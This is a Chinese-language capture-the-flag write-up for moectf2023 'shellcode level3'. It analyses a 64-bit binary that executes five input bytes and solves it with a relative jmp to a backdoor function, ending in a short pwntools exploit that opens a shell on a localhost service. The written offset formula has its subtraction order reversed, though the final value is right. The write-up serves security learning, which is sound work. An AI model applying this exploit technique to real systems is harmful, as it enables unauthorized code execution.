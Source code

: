 ```yaml
---
title: moectf2023 - shellcode level3
date: 2023/9/24 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用后门函数和跳转指令构造shellcode成功执行。
---
```


## 文件分析

下载`shellcode_level3`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

程序读入5字节并执行，且存在后门函数  
考虑跳转指令执行shellcode跳转到此处

Shellcode: e8 -> call; e9 -> jmp  
后面可跟相对地址（跳转地址-跳转命令所在地址+5）  
相对地址为4Bytes

全局变量code地址0x404089，后门函数`givemeshell`地址0x4011d6  
那么相对地址为0x404089 + 5 - 0x4011d6 = 0xffffd148 `int32_t`

## EXPLOIT

```python
from pwn import *
sh = remote('localhost', 46239)
sh.sendline(b'\xe9' + p32(0xffffd148))
sh.interactive()
```

Done.
